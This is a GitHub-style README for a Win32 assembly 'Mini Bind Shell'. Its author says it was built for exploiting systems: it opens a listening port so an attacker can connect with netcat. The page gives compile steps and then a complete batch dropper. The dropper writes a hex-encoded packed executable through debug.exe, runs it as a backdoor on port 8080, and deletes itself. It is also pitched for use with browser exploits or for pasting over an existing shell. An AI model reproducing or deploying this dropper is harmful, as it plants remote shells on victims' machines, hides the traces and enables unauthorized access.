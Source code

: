 Account moved to: https://gitlab.com/illwill 



File     :    Mini Bind Shell

Language :    Win32 ASM

FileSize :    2kb

D.O.B.   :    February 22, 2006  

Description:  CMD line shell in masm that binds/listens on a port

I made this in 2006 for use in exploiting a system, once executed this binds to port on the 
computer allowing the attacker to connect to the specified port remotely with netcat


How Compile:
Get MASM installed
From a CMD Prompt type the following:

c:\masm32\bin\ml /c /coff minishell.asm

c:\masm32\bin\link /SUBSYSTEM:WINDOWS /RELEASE /MERGE:.data=.text /MERGE:.rdata=.text /MERGE:.idata=.text /SECTION:.text,EWR /FILEALIGN:512 minishell.obj


Test it:
c:\minishell.exe 8080


Also if you wanted to use this in a batch file so you can paste it over a previous shell or use with a browser exploit that allows you to execute arbitrary files
Copy/Paste the code below to bind.bat:


echo off && echo n 1.dll >123.hex && echo e 0100 >>123.hex

echo 4d 5a 6b 65 72 6e 65 6c 33 32 2e 64 6c 6c 00 00 50 45 00 00 4c 01 02 00 00 00 00 00 00 00 00 00 00 00 00 00 e0 00 0f 01 0b 01 00 00 00 02 00 00 00 00 00 00 00 00 00 00 67 42 00 00 10 00 00 00 00 10 00 00 00 00 40 00 00 10 00 00 00 02 00 00 04 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 50 00 00 00 02 00 00 00 00 00 00 02 00 00 00 00 00 10 00 00 10 00 00 00 00 10 00 00 10 00 00  >>123.hex 

echo e 0180 >>123.hex && echo 00 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00 63 42 00 00 14 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  >>123.hex 

echo e 0200 >>123.hex && echo 00 00 00 00 00 00 00 00 4d 45 57 00 46 12 d2 c3 00 30 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e0 00 00 c0 02 d2 75 db 8a 16 eb d4 00 10 00 00 00 40 00 00 77 02 00 00 00 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e0 00 00 c0 be 1c 40 40 00 8b de ad ad 50 ad 97 b2 80 a4 b6 80 ff 13 73 f9 33 c9 ff 13 73 16 33 c0 ff 13 73 21 b6 80 41 b0 10 ff 13  >>123.hex 

echo e 0280 >>123.hex && echo 12 c0 73 fa 75 3e aa eb e0 e8 72 3e 00 00 02 f6 83 d9 01 75 0e ff 53 fc eb 26 ac d1 e8 74 2f 13 c9 eb 1a 91 48 c1 e0 08 ac ff 53 fc 3d 00 7d 00 00 73 0a 80 fc 05 73 06 83 f8 7f 77 02 41 41 95 8b c5 b6 00 56 8b f7 2b f0 f3 a4 5e eb 9b ad 85 c0 75 90 ad 96 ad 97 56 ac 3c 00 75 fb ff 53 f0 95 56 ad 0f c8 40 59 74 ec 79 07 ac 3c 00 75 fb 91 40 50 55 ff 53 f4 ab 75 e7 c3 00 00 00 00 00  >>123.hex 

echo e 0300 >>123.hex && echo 33 c9 41 ff 13 13 c9 ff 13 72 f8 c3 38 42 00 00 45 42 00 00 00 00 00 00 00 40 40 00 30 01 40 00 00 10 40 00 00 10 40 00 68 1c fa 31 40 03 6a 01 e8 fc 86 02 f9 f5 30 ba 18 fc fb bf 14 b2 c7 1f 6a 91 02 06 bd 3c 0c 02 e8 b0 23 a3 60 f6 59 66 c7 05 58 ce 4f 02 15 3a 19 e8 d8 5d 50 d9 aa 86 3d 66 a3 5a 31 c8 3c 5c a0 01 14 6a 10 68 29 14 ff 35 36 14 e8 82 12 29 05 0d 94 81 5e d0 0f ca  >>123.hex 

echo e 0380 >>123.hex && echo 60 5c c5 a1 1e 05 88 3c 30 be c2 2a 44 51 45 04 ea 2d 14 fe 28 9f 42 68 48 93 a9 45 31 46 fb 28 e1 08 a5 8b 0b 85 46 14 e8 26 5f 07 c3 cc ff 25 20 1a 81 bb 2a 14 06 43 0c 21 1c 90 18 c8 10 64 04 4e cc 20 55 8b ec 81 c4 3f 7c fe f1 0c 56 57 e8 3a c7 89 03 45 fc 33 c9 8b 75 a9 ac 3c c0 74 07 e8 22 f2 f7 03 41 eb f4 51 d1 e9 90 e1 58 3b 01 c1 74 0b 5f 5e b8 03 10 c9 c2 08 e1 86 49 8d  >>123.hex 

echo e 0400 >>123.hex && echo bd 3c 70 e5 43 2a 09 cf 2f e0 02 b0 20 aa eb 73 f2 28 8d 85 15 39 8b f0 36 f8 33 2a 33 eb 1b 8b 03 66 32 07 ef 22 65 20 4d fe 22 11 e1 28 2d ed 94 08 83 b9 dc b7 30 4b 74 fb 3b 3a 4d 08 a8 15 59 65 1d 67 0a 4c 13 41 1d 0f 14 eb e6 aa 0d 36 07 19 87 48 f4 9d 7f c0 55 73 11 8b 7d 0c c6 17 b8 02 7f 82 a2 13 9d 68 b0 a0 58 34 33 0d 46 0d e6 d1 f7 e1 fe 58 a3 ee e7 44 bb 1f 16 a9 ce 11  >>123.hex 

echo e 0480 >>123.hex && echo 04 de 55 01 3c d4 14 d4 0e 1b 33 c0 4e ec 87 0b 70 d2 8a 06 46 3d 3c 02 b3 12 0e f7 df 90 eb 0b 2c 30 19 8d 0c 89 06 48 83 2d 0a c0 75 f1 e8 04 11 33 51 c2 38 a8 92 52 e1 06 00 00 30 40 00 63 30 6d 64 00 81 3f 40 00 0c 38 20 40 03 77 73 32 5f 33 98 2e 64 6c e3 c0 80 61 71 63 1b 65 70 74 10 e1 69 73 db ca 6e 01 57 53 41 cb f9 61 72 f0 75 70 cf 18 68 23 6f 6e 73 1d 0e 62 69 94 64 19  >>123.hex 

echo e 0500 >>123.hex && echo 9f c3 63 6b 65 74 bf 06 ff 03 e1 b1 91 1a 72 6e cd 6c 58 4a 47 c3 36 43 6f 6d 8b 61 37 5a 4c 62 cc 4c 80 fc 72 ed f7 3b a8 50 6f 6c ce 73 3b 21 00 00 00 00 00 00 81 3f 40 00 4c 6f 61 64 4c 69 62 72 61 72 79 41 00 47 65 74 50 72 6f 63 41 64 64 72 65 73 73 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0c 40 00 00 e9 ec be ff ff 00 00 00 02 00 00 00 0c 40 00 00  >>123.hex 

echo r cx >>123.hex && echo 0477 >>123.hex && echo w >>123.hex && echo q >>123.hex && debug<123.hex && copy 1.dll bind.exe

rem *********CHANGE PORT NUMBER HERE******

bind.exe 8080

deleteit:

del bind.exe

IF EXIST bind.exe GOTO deleteit

del %0 
